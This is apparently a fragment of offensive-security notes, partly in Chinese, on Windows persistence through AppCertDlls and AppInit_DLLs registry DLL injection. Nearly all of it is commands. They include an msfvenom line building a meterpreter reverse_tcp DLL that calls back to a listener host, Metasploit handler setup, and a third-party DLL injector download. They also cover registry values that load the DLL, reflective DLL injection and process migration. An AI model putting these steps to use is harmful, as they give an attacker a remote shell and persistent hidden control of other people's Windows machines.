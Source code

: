  #### AppCertDlls
	注册表HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SessionManager\下新建AppCertDlls，新建名字为Default，值为c:\1.dll的项
	#msfvenom –p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 –f dll >/root/1.dll
	Msf>use exploit/multi/handler
	Msf>set payload windows/meterpreter/reverse_tcp
	https://cdn.securityxploded.com/download/RemoteDLLInjector.zip
	> RemoteDLLInjector64.exe PID c:\1.dll
 #### AppInit_DLLs
	注册表HKEY_LOCAL_MACHINE\Software\Microsoft\WindowsNT\CurrentVersion\Window\Appinit_Dlls下AppInit_DLLs设置为c:\1.dll，LoadAppInit_DLLs设置为1
 #### MSF
	Msf>use post/windows/manage/reflective_dll_inject
	Msf>set session 1
	Msf>set pid 1234
	Msf>set path c:\\1.dll
	Msf>run
	&
	migrate +pid
	&
	Meterpreter>run post/windows/manage/migrate